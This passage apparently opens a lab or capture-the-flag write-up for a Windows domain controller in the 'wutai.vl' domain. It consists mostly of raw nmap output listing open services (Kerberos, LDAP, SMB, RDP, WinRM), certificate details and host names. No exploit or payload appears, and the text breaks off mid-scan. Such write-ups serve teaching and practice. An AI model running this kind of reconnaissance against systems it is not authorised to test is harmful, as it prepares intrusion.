




As usual I will start by checking all the possible ports open on the TCP protocoll:

```bash
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2026-03-31 12:45:21Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: wutai.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=S022M100.it.wutai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:S022M100.it.wutai.vl
| Issuer: commonName=wutai-S022M110-CA/domainComponent=wutai
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-20T12:47:24
| Not valid after:  2026-10-20T12:47:24
| MD5:     8b22 9fd1 d806 cf76 a908 8924 b7da 3f90
| SHA-1:   27b9 8a61 bb9e 489c 513f 3c64 e08a 116f b495 5b76
| SHA-256: a3d4 6dc7 5d18 1ffd d301 8427 2c13 929d e59c 96e9 1f84 8c4c 18e6 91e2 98d9 eedd
| -----BEGIN CERTIFICATE-----
| MIIGODCCBSCgAwIBAgITQwAAAAcgRM5ygSsLXQAAAAAABzANBgkqhkiG9w0BAQsF
| ADBHMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgV3dXRhaTEa
| MBgGA1UEAxMRd3V0YWktUzAyMk0xMTAtQ0EwHhcNMjUxMDIwMTI0NzI0WhcNMjYx
| MDIwMTI0NzI0WjAfMR0wGwYDVQQDExRTMDIyTTEwMC5pdC53dXRhaS52bDCCASIw
| DQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAM86aRXF5R7ikdhPRh1r2Atxfm6a
| qKF/thwT5zY0vnwVkZguIv7/AWbFJeoohSExFfwdsgkL7YDZe6TPgtkAOK51WLFU
| xNGwIlfVZOp3uTaU7MHYKhh1p8DWcBxCi9xSHkQTRVj3k0bLdZmawjhm6TBo3B6S
| BIPB+WfYD7i7+M69rjNfOmwDveJCVnHrzZzGI/LIX+jEsZ3TmupGnLbXqebJEUm8
| bpZDcnIjjux7wYya9zFD4NpNjSzwY8noE9xNi/Q20pdn3+EhN8QOOe3X2hlCkYKo
| CDH5A/WxfFlUNsiPBvTXDhtHPVnirjfDdBTfQBMnqCxLUP3hF9FnwlMaWOkCAwEA
| AaOCA0MwggM/MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdABy
| AG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0P
| AQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqG
| SIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQB
| AjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFPbs
| F92e6iErA65DmBMFWvaRrA1fMB8GA1UdIwQYMBaAFLHQDwVPqDsK2uKLavJ405Zp
| SD9qMIHNBgNVHR8EgcUwgcIwgb+ggbyggbmGgbZsZGFwOi8vL0NOPXd1dGFpLVMw
| MjJNMTEwLUNBLENOPVMwMjJNMTEwLENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBT
| ZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXd1dGFpLERD
| PXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwAYIKwYBBQUHAQEEgbMwgbAwga0GCCsGAQUF
| BzAChoGgbGRhcDovLy9DTj13dXRhaS1TMDIyTTExMC1DQSxDTj1BSUEsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz13dXRhaSxEQz12bD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9
| Y2VydGlmaWNhdGlvbkF1dGhvcml0eTBABgNVHREEOTA3oB8GCSsGAQQBgjcZAaAS
| BBANKaYj0OacQYscP9mNhA4EghRTMDIyTTEwMC5pdC53dXRhaS52bDBOBgkrBgEE
| AYI3GQIEQTA/oD0GCisGAQQBgjcZAgGgLwQtUy0xLTUtMjEtMzEzMDQ4NzgzLTM4
| OTgwNzI5NzAtMTQwODY3MjY3Ny0xMDAwMA0GCSqGSIb3DQEBCwUAA4IBAQA77F7a
| ZAfdT4rPmBhFcEHmATo404deLVL0hp6qH+mUQh5k8mTXSEqQkyPo0dsxtKGnRmr4
| WsnD0ILMMrJH/y8WSNpH1C2bvOUEatVR8bb5IimE/ycOiAzoJ/RLrenW33knTAAq
| bA5VGcvyFjO0ovpG+EDA7tQGmjs/ThCDOVBLLdvw3ZLfx7z2mRPT2bILEVUTCMwI
| b/HqfMqBXXRNT8rOC3MpuY0sRwBDbta9PZ9T04HwdrRkDazV9M9TvQBiEru7AcUq
| 5BPrw5g9lFG/5iJRGH274WzCfUl0NHRVbpr2NizhyOzSeTtO5zMBoMaq301d1AwQ
| zdx2biYTSMOATyr3
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds  syn-ack ttl 64 Windows Server 2022 Standard 20348 microsoft-ds (workgroup: IT)
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: wutai.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=S022M100.it.wutai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:S022M100.it.wutai.vl
| Issuer: commonName=wutai-S022M110-CA/domainComponent=wutai
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-20T12:47:24
| Not valid after:  2026-10-20T12:47:24
| MD5:     8b22 9fd1 d806 cf76 a908 8924 b7da 3f90
| SHA-1:   27b9 8a61 bb9e 489c 513f 3c64 e08a 116f b495 5b76
| SHA-256: a3d4 6dc7 5d18 1ffd d301 8427 2c13 929d e59c 96e9 1f84 8c4c 18e6 91e2 98d9 eedd
| -----BEGIN CERTIFICATE-----
| MIIGODCCBSCgAwIBAgITQwAAAAcgRM5ygSsLXQAAAAAABzANBgkqhkiG9w0BAQsF
| ADBHMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgV3dXRhaTEa
| MBgGA1UEAxMRd3V0YWktUzAyMk0xMTAtQ0EwHhcNMjUxMDIwMTI0NzI0WhcNMjYx
| MDIwMTI0NzI0WjAfMR0wGwYDVQQDExRTMDIyTTEwMC5pdC53dXRhaS52bDCCASIw
| DQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAM86aRXF5R7ikdhPRh1r2Atxfm6a
| qKF/thwT5zY0vnwVkZguIv7/AWbFJeoohSExFfwdsgkL7YDZe6TPgtkAOK51WLFU
| xNGwIlfVZOp3uTaU7MHYKhh1p8DWcBxCi9xSHkQTRVj3k0bLdZmawjhm6TBo3B6S
| BIPB+WfYD7i7+M69rjNfOmwDveJCVnHrzZzGI/LIX+jEsZ3TmupGnLbXqebJEUm8
| bpZDcnIjjux7wYya9zFD4NpNjSzwY8noE9xNi/Q20pdn3+EhN8QOOe3X2hlCkYKo
| CDH5A/WxfFlUNsiPBvTXDhtHPVnirjfDdBTfQBMnqCxLUP3hF9FnwlMaWOkCAwEA
| AaOCA0MwggM/MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdABy
| AG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0P
| AQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqG
| SIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQB
| AjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFPbs
| F92e6iErA65DmBMFWvaRrA1fMB8GA1UdIwQYMBaAFLHQDwVPqDsK2uKLavJ405Zp
| SD9qMIHNBgNVHR8EgcUwgcIwgb+ggbyggbmGgbZsZGFwOi8vL0NOPXd1dGFpLVMw
| MjJNMTEwLUNBLENOPVMwMjJNMTEwLENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBT
| ZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXd1dGFpLERD
| PXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwAYIKwYBBQUHAQEEgbMwgbAwga0GCCsGAQUF
| BzAChoGgbGRhcDovLy9DTj13dXRhaS1TMDIyTTExMC1DQSxDTj1BSUEsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz13dXRhaSxEQz12bD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9
| Y2VydGlmaWNhdGlvbkF1dGhvcml0eTBABgNVHREEOTA3oB8GCSsGAQQBgjcZAaAS
| BBANKaYj0OacQYscP9mNhA4EghRTMDIyTTEwMC5pdC53dXRhaS52bDBOBgkrBgEE
| AYI3GQIEQTA/oD0GCisGAQQBgjcZAgGgLwQtUy0xLTUtMjEtMzEzMDQ4NzgzLTM4
| OTgwNzI5NzAtMTQwODY3MjY3Ny0xMDAwMA0GCSqGSIb3DQEBCwUAA4IBAQA77F7a
| ZAfdT4rPmBhFcEHmATo404deLVL0hp6qH+mUQh5k8mTXSEqQkyPo0dsxtKGnRmr4
| WsnD0ILMMrJH/y8WSNpH1C2bvOUEatVR8bb5IimE/ycOiAzoJ/RLrenW33knTAAq
| bA5VGcvyFjO0ovpG+EDA7tQGmjs/ThCDOVBLLdvw3ZLfx7z2mRPT2bILEVUTCMwI
| b/HqfMqBXXRNT8rOC3MpuY0sRwBDbta9PZ9T04HwdrRkDazV9M9TvQBiEru7AcUq
| 5BPrw5g9lFG/5iJRGH274WzCfUl0NHRVbpr2NizhyOzSeTtO5zMBoMaq301d1AwQ
| zdx2biYTSMOATyr3
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: wutai.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=S022M100.it.wutai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:S022M100.it.wutai.vl
| Issuer: commonName=wutai-S022M110-CA/domainComponent=wutai
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-20T12:47:24
| Not valid after:  2026-10-20T12:47:24
| MD5:     8b22 9fd1 d806 cf76 a908 8924 b7da 3f90
| SHA-1:   27b9 8a61 bb9e 489c 513f 3c64 e08a 116f b495 5b76
| SHA-256: a3d4 6dc7 5d18 1ffd d301 8427 2c13 929d e59c 96e9 1f84 8c4c 18e6 91e2 98d9 eedd
| -----BEGIN CERTIFICATE-----
| MIIGODCCBSCgAwIBAgITQwAAAAcgRM5ygSsLXQAAAAAABzANBgkqhkiG9w0BAQsF
| ADBHMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgV3dXRhaTEa
| MBgGA1UEAxMRd3V0YWktUzAyMk0xMTAtQ0EwHhcNMjUxMDIwMTI0NzI0WhcNMjYx
| MDIwMTI0NzI0WjAfMR0wGwYDVQQDExRTMDIyTTEwMC5pdC53dXRhaS52bDCCASIw
| DQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAM86aRXF5R7ikdhPRh1r2Atxfm6a
| qKF/thwT5zY0vnwVkZguIv7/AWbFJeoohSExFfwdsgkL7YDZe6TPgtkAOK51WLFU
| xNGwIlfVZOp3uTaU7MHYKhh1p8DWcBxCi9xSHkQTRVj3k0bLdZmawjhm6TBo3B6S
| BIPB+WfYD7i7+M69rjNfOmwDveJCVnHrzZzGI/LIX+jEsZ3TmupGnLbXqebJEUm8
| bpZDcnIjjux7wYya9zFD4NpNjSzwY8noE9xNi/Q20pdn3+EhN8QOOe3X2hlCkYKo
| CDH5A/WxfFlUNsiPBvTXDhtHPVnirjfDdBTfQBMnqCxLUP3hF9FnwlMaWOkCAwEA
| AaOCA0MwggM/MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdABy
| AG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0P
| AQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqG
| SIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQB
| AjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFPbs
| F92e6iErA65DmBMFWvaRrA1fMB8GA1UdIwQYMBaAFLHQDwVPqDsK2uKLavJ405Zp
| SD9qMIHNBgNVHR8EgcUwgcIwgb+ggbyggbmGgbZsZGFwOi8vL0NOPXd1dGFpLVMw
| MjJNMTEwLUNBLENOPVMwMjJNMTEwLENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBT
| ZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXd1dGFpLERD
| PXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwAYIKwYBBQUHAQEEgbMwgbAwga0GCCsGAQUF
| BzAChoGgbGRhcDovLy9DTj13dXRhaS1TMDIyTTExMC1DQSxDTj1BSUEsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz13dXRhaSxEQz12bD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9
| Y2VydGlmaWNhdGlvbkF1dGhvcml0eTBABgNVHREEOTA3oB8GCSsGAQQBgjcZAaAS
| BBANKaYj0OacQYscP9mNhA4EghRTMDIyTTEwMC5pdC53dXRhaS52bDBOBgkrBgEE
| AYI3GQIEQTA/oD0GCisGAQQBgjcZAgGgLwQtUy0xLTUtMjEtMzEzMDQ4NzgzLTM4
| OTgwNzI5NzAtMTQwODY3MjY3Ny0xMDAwMA0GCSqGSIb3DQEBCwUAA4IBAQA77F7a
| ZAfdT4rPmBhFcEHmATo404deLVL0hp6qH+mUQh5k8mTXSEqQkyPo0dsxtKGnRmr4
| WsnD0ILMMrJH/y8WSNpH1C2bvOUEatVR8bb5IimE/ycOiAzoJ/RLrenW33knTAAq
| bA5VGcvyFjO0ovpG+EDA7tQGmjs/ThCDOVBLLdvw3ZLfx7z2mRPT2bILEVUTCMwI
| b/HqfMqBXXRNT8rOC3MpuY0sRwBDbta9PZ9T04HwdrRkDazV9M9TvQBiEru7AcUq
| 5BPrw5g9lFG/5iJRGH274WzCfUl0NHRVbpr2NizhyOzSeTtO5zMBoMaq301d1AwQ
| zdx2biYTSMOATyr3
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: wutai.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=S022M100.it.wutai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:S022M100.it.wutai.vl
| Issuer: commonName=wutai-S022M110-CA/domainComponent=wutai
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-20T12:47:24
| Not valid after:  2026-10-20T12:47:24
| MD5:     8b22 9fd1 d806 cf76 a908 8924 b7da 3f90
| SHA-1:   27b9 8a61 bb9e 489c 513f 3c64 e08a 116f b495 5b76
| SHA-256: a3d4 6dc7 5d18 1ffd d301 8427 2c13 929d e59c 96e9 1f84 8c4c 18e6 91e2 98d9 eedd
| -----BEGIN CERTIFICATE-----
| MIIGODCCBSCgAwIBAgITQwAAAAcgRM5ygSsLXQAAAAAABzANBgkqhkiG9w0BAQsF
| ADBHMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgV3dXRhaTEa
| MBgGA1UEAxMRd3V0YWktUzAyMk0xMTAtQ0EwHhcNMjUxMDIwMTI0NzI0WhcNMjYx
| MDIwMTI0NzI0WjAfMR0wGwYDVQQDExRTMDIyTTEwMC5pdC53dXRhaS52bDCCASIw
| DQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAM86aRXF5R7ikdhPRh1r2Atxfm6a
| qKF/thwT5zY0vnwVkZguIv7/AWbFJeoohSExFfwdsgkL7YDZe6TPgtkAOK51WLFU
| xNGwIlfVZOp3uTaU7MHYKhh1p8DWcBxCi9xSHkQTRVj3k0bLdZmawjhm6TBo3B6S
| BIPB+WfYD7i7+M69rjNfOmwDveJCVnHrzZzGI/LIX+jEsZ3TmupGnLbXqebJEUm8
| bpZDcnIjjux7wYya9zFD4NpNjSzwY8noE9xNi/Q20pdn3+EhN8QOOe3X2hlCkYKo
| CDH5A/WxfFlUNsiPBvTXDhtHPVnirjfDdBTfQBMnqCxLUP3hF9FnwlMaWOkCAwEA
| AaOCA0MwggM/MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdABy
| AG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0P
| AQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqG
| SIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQB
| AjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFPbs
| F92e6iErA65DmBMFWvaRrA1fMB8GA1UdIwQYMBaAFLHQDwVPqDsK2uKLavJ405Zp
| SD9qMIHNBgNVHR8EgcUwgcIwgb+ggbyggbmGgbZsZGFwOi8vL0NOPXd1dGFpLVMw
| MjJNMTEwLUNBLENOPVMwMjJNMTEwLENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBT
| ZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXd1dGFpLERD
| PXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwAYIKwYBBQUHAQEEgbMwgbAwga0GCCsGAQUF
| BzAChoGgbGRhcDovLy9DTj13dXRhaS1TMDIyTTExMC1DQSxDTj1BSUEsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz13dXRhaSxEQz12bD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9
| Y2VydGlmaWNhdGlvbkF1dGhvcml0eTBABgNVHREEOTA3oB8GCSsGAQQBgjcZAaAS
| BBANKaYj0OacQYscP9mNhA4EghRTMDIyTTEwMC5pdC53dXRhaS52bDBOBgkrBgEE
| AYI3GQIEQTA/oD0GCisGAQQBgjcZAgGgLwQtUy0xLTUtMjEtMzEzMDQ4NzgzLTM4
| OTgwNzI5NzAtMTQwODY3MjY3Ny0xMDAwMA0GCSqGSIb3DQEBCwUAA4IBAQA77F7a
| ZAfdT4rPmBhFcEHmATo404deLVL0hp6qH+mUQh5k8mTXSEqQkyPo0dsxtKGnRmr4
| WsnD0ILMMrJH/y8WSNpH1C2bvOUEatVR8bb5IimE/ycOiAzoJ/RLrenW33knTAAq
| bA5VGcvyFjO0ovpG+EDA7tQGmjs/ThCDOVBLLdvw3ZLfx7z2mRPT2bILEVUTCMwI
| b/HqfMqBXXRNT8rOC3MpuY0sRwBDbta9PZ9T04HwdrRkDazV9M9TvQBiEru7AcUq
| 5BPrw5g9lFG/5iJRGH274WzCfUl0NHRVbpr2NizhyOzSeTtO5zMBoMaq301d1AwQ
| zdx2biYTSMOATyr3
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: IT
|   NetBIOS_Domain_Name: IT
|   NetBIOS_Computer_Name: S022M100
|   DNS_Domain_Name: it.wutai.vl
|   DNS_Computer_Name: S022M100.it.wutai.vl
|   DNS_Tree_Name: wutai.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-31T12:46:13+00:00
|_ssl-date: 2026-03-31T12:46:53+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=S022M100.it.wutai.vl
| Issuer: commonName=S022M100.it.wutai.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-30T04:10:25
| Not valid after:  2026-09-29T04:10:25
| MD5:     816d 01a0 c191 4e75 b49e 3a96 798b f136
| SHA-1:   cefb 0f50 427d 300b 9e54 8218 4817 d881 5f0d 5a08
| SHA-256: 1943 011c 0754 6c16 b440 d5ed 3fe8 a836 4f54 9582 5861 6432 407e db15 9c2c eb19
| -----BEGIN CERTIFICATE-----
| MIIC7DCCAdSgAwIBAgIQXLDOTlS7kIdLrDYT1j9y+zANBgkqhkiG9w0BAQsFADAf
| MR0wGwYDVQQDExRTMDIyTTEwMC5pdC53dXRhaS52bDAeFw0yNjAzMzAwNDEwMjVa
| Fw0yNjA5MjkwNDEwMjVaMB8xHTAbBgNVBAMTFFMwMjJNMTAwLml0Lnd1dGFpLnZs
| MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAyqyB+LcarJWf3RtCpt12
| tWBGsTIwzWZoENKkN4a4fwqeNfCrqRd9Gi8tMklkFTOdP3dMIdZTXoC+Q4cj8g82
| rzQNLhd5Nn3a2fjjd4LnHWLX9s0sO7lBV0Ioi8RAbLzce4rGiW3jtUKRIXIGF8RE
| RUT7rqokW4sNL3pN0O+2U1YzMzM0b/Ve8HPqqAuBbM/cvXmbVBoGl7aF0kYTrREV
| 1B6smIEuVQmjOopgEVv3+b9lujl7/g7bnbOqC9u0IpaEOVtlQ6fKpLXGY//B34es
| zLXq+Ttz2cmmw+LNva+3eu9qhYbi9gVHiyei82cjVF8h9waDr2gqMs+BWLHrmEEA
| XQIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJ
| KoZIhvcNAQELBQADggEBAJi3PpY3F89ckh97ZduXZwJeu5AsWhxYrs3KOM/1QLe+
| QqrJe8AATc896tbGl8QkQoq3M7fEbZJlM73gXnz/x/0+ooNs5jrLw0XkzVR94S4l
| fldBpNh/yns1V/kQiSLAlGJgfijV5vdueUSQdrFMwuispxbP/aItPGOuIvdl1VRp
| Zy6KJPUW8mWegyfha92Oj9hkPBpoNJuhs6IlJgKrseTKzVtdxvHnj6Mm28S39qK4
| CQ3hVty+H5EzwW8Jcw3zsmwe21/AP7q5TXy2FvrF/b/8WENZUX70azMpiqLf0h+U
| i8/6sD7BVZPUv/isjosIDnySTxO0agd7LQssiLujNf8=
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49685/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49726/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49735/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49751/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
